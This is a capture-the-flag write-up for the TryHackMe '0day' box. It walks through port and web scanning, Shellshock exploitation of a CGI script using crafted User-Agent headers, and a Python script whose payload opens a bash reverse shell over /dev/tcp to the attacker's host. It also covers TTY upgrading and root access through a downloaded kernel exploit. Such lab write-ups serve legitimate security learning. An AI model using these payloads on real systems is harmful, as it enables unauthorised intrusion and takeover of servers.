

# 0Day Writeup

## Introduction

0day is a medium box on the TryHackMe platform. The box involves exploiting a website with shellshock and exploiting an outdated linux kernel.

## Scanning

To start our enumeration of the box we do an initial nmap scan. Using `-sC` for default scripts, `-sV` for version enumeration and `-oA` to output the results to a file.
```
nmap -sC -sV -oA <IP>

Starting Nmap 7.91 ( https://nmap.org ) at 2021-07-01 11:35 EDT
Nmap scan report for 10.10.75.170
Host is up (0.018s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 57:20:82:3c:62:aa:8f:42:23:c0:b8:93:99:6f:49:9c (DSA)
|   2048 4c:40:db:32:64:0d:11:0c:ef:4f:b8:5b:73:9b:c7:6b (RSA)
|   256 f7:6f:78:d5:83:52:a6:4d:da:21:3c:55:47:b7:2d:6d (ECDSA)
|_  256 a5:b4:f0:84:b6:a7:8d:eb:0a:9d:3e:74:37:33:65:16 (ED25519)
80/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
|_http-server-header: Apache/2.4.7 (Ubuntu)
|_http-title: 0day
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
The results of this nmap show 2 ports open:
+ port 80 which is a HTTP server.
+ Port 22 which is a SSH service.

Our next step is to look into the HTTP server. Navigating there in the browser shows a site which looks like Ryan's portfolio page.


After looking around manually for a while. i decided to run a nikto scan of website.
```
nikto -h <IP>

+ Server: Apache/2.4.7 (Ubuntu)                                                                                               
+ The anti-clickjacking X-Frame-Options header is not present.                                                                
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS     
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ Apache/2.4.7 appears to be outdated (current is at least Apache/2.4.37). Apache 2.2.34 is the EOL for the 2.x branch.
+ Server may leak inodes via ETags, header found with file /, inode: bd1, size: 5ae57bb9a1192, mtime: gzip
+ Allowed HTTP Methods: GET, HEAD, POST, OPTIONS 
+ Uncommon header '93e4r0-cve-2014-6271' found, with contents: true
+ OSVDB-112004: /cgi-bin/test.cgi: Site appears vulnerable to the 'shellshock' vulnerability (http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-6278).
+ OSVDB-3092: /admin/: This might be interesting...
+ OSVDB-3092: /backup/: This might be interesting...
+ OSVDB-3268: /css/: Directory indexing found.
+ OSVDB-3092: /css/: This might be interesting...
+ OSVDB-3268: /img/: Directory indexing found.
+ OSVDB-3092: /img/: This might be interesting...
+ OSVDB-3092: /secret/: This might be interesting...
+ OSVDB-3092: /cgi-bin/test.cgi: This might be interesting...
+ OSVDB-3233: /icons/README: Apache default file found.
+ /admin/index.html: Admin login page/section found.
```

As you can see from our the scan a few interesting things appear. The first is the server vulnerability to shellshock and the backups and admin directories. When doing this box i first investigated the directories however, both of these turned out to be rabbit holes. So it was back to the shellshock vulnerability.

## Exploitation
After doing some research I found that the shellshock vulnerability works  by calling an empty bash function in the User-Agent header of any HTTP request sent to the vulnerable URL. From my nikto scan i know the vulnerable URL is http://<IP>/cgi-bin/test.cgi. So I used cURL to send my request. I first tried just changing the User-Agent header by running:
```
Command:
curl -A "() { :;};  /usr/bin/id;" http://<IP>/cgi-bin/test.cgi

Response:
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>500 Internal Server Error</title>
</head><body>
<h1>Internal Server Error</h1>
<p>The server encountered an internal error or
misconfiguration and was unable to complete
your request.</p>
<p>Please contact the server administrator at 
 webmaster@localhost to inform them of the time this error occurred,
 and the actions you performed just before this error.</p>
<p>More information about this error may be available
in the server error log.</p>
<hr>
<address>Apache/2.4.7 (Ubuntu) Server at <IP> Port 80</address>
</body></html>
```

As you can see this returns a 500 error. So something about our request is invalid according to the server. After researching this for a while I found that changing the user agent in the way i did made the request invalid because it did not contain a blank line before the body of the response and a properly formatted content-type header. To get around this I make my exploit echo these before running my injected command like so:

```
Command:
curl -A "() { :;};echo Content-Type: text/html; echo; /usr/bin/id;" http://<IP>/cgi-bin/test.cgi

Response:
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Now we have command execution we have a means to access to box via a reverse shell. For the extra challenge I decided to write a python script to run the exploit for me and give me a reverse shell.

```python
import requests
url = "http://<IP>/cgi-bin/test.cgi"
payload="() { :;}; echo Content-Type: text/html; echo; /bin/bash -c bash -i >& /dev/tcp/<My IP>/666 0>&1" 
print(payload)

r = requests.get(url, headers={"User-Agent": payload})
print(r.content)
```
This script imports the requests module, stores the URL and the payload as variables and then makes get request with the payload injected into the user-agent the same way as I did the request manually using cURL. When I run the script i started a netcat session on port 666 to catch the reverse shell and we are on the box. 


## Privilege Escalation

Now we have command execution on the box. We can look at privilege escalation. Now the first thing I do when getting onto a box is getting an interactive TTY. To do this there are a few steps:

1. run `python -c 'import pty;pty.spawn("/bin/bash")'` this spawns a bash prompt
2. press Ctrl + Z to background the netcat process
3. change the terminal into raw mode using `stty raw -echo`
4. foreground the netcat process by pressing "fg" and press enter twice.
5. set the term variable with export TERM=xterm
6. Now you have a fully interactive shell.

With that done we can move onto the good stuff. I start with 3 common manual enumeration techniques. First running `sudo -l` which gets me nowhere as we don't know www-data's password.



Next I run find to look for suid binaries and this returns nothing.


Lastly I run uname -a to see the kernel version of our box. 


This returns something that might be useful. Putting the kernel version through google I can see it is outdated and potentially vulnerable to certain CVEs. After trying a few of them I came to CVE-2015-3028 (https://www.exploit-db.com/exploits/37292) and this CVE seemed promising.

I downloaded the exploit and then uploaded it to the server using the python web server method. This method involves using python to start a web server on our machine and then using wget on our victim machine to pull file from our side. Next I attempted to compile the exploit using gcc but, this returned an error. 

```
Command: gcc exploit.c -o privesc

Response: gcc: error trying to exec 'cc1': execvp: No such file or directory
```

Now clearly gcc cannot find a file it needs to compile the exploit. After going down a few rabbit holes I found that a solution for this kind of error was resetting the PATH variable to default. This is done by running `export PATH=/usr/lib/lightdm/lightdm:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games` after I attempted to compile the exploit again. This time the compilation was successful. Next I ran the exploit and it gave me access to root. From here I was bale to go to /home/ryan to get the user.txt flag and /root to get the root.txt flag.


## Conclusion

To conclude this box was quite the challenge for me and took lots of persistence to finally finish. Overall i enjoyed and i learned quite a bit about the functionally of the shellshock exploit as well as that gcc error.  